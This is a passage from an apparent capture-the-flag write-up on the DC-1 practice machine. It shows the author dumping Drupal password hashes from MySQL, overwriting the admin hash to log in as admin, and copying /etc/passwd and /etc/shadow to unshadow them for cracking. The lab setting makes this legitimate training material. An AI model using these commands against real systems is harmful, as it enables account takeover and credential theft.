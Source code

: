 select uid,name,pass from users;
+-----+-------+---------------------------------------------------------+
| uid | name  | pass                                                    |
+-----+-------+---------------------------------------------------------+
|   0 |       |                                                         |
|   1 | admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
|   2 | Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
|   3 | test  | $S$DfRd9Oy3cmNH19AaTvrsJmMmqDJ4RnEhekTRuXShDQmwjauuIGkf |
+-----+-------+---------------------------------------------------------+
4 rows in set (0.00 sec)
{% endhighlight %}

After Doing some Googling I found out how to change the admin password in the database 

[https://knackforge.com/blog/sivaji/different-ways-reset-drupal-admin-password](https://knackforge.com/blog/sivaji/different-ways-reset-drupal-admin-password)

within mysql i updated the password has for admin so the password is now **druapl**

{% highlight bash %}
mysql> UPDATE users SET name='admin', pass='$S$Drl0vgZ9yuU9uc4JyaTMHxMPriC7q/PsOUOx52fCrVQSTpI/Tu4x' WHERE uid = 1;
<Z9yuU9uc4JyaTMHxMPriC7q/PsOUOx52fCrVQSTpI/Tu4x' WHERE uid = 1;              
Query OK, 1 row affected (0.02 sec)
Rows matched: 1  Changed: 1  Warnings: 0
{% endhighlight %}

Boom I can now login as admin

Looking around the dashboard flag 3 was found

![alt text]({{ site.baseurl }}/assets/images/dc1/3.png)



### flag 4

{% highlight bash %}
pwd
/home/flag4

cat flag4.txt
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
{% endhighlight %}

There is a **flag4** user in /etc/passwd

after getting root I pulled down /etc/passwd and /etc/shadow

Unshadowed the file 

`unshadow passwd shadow > unshadow.txt`
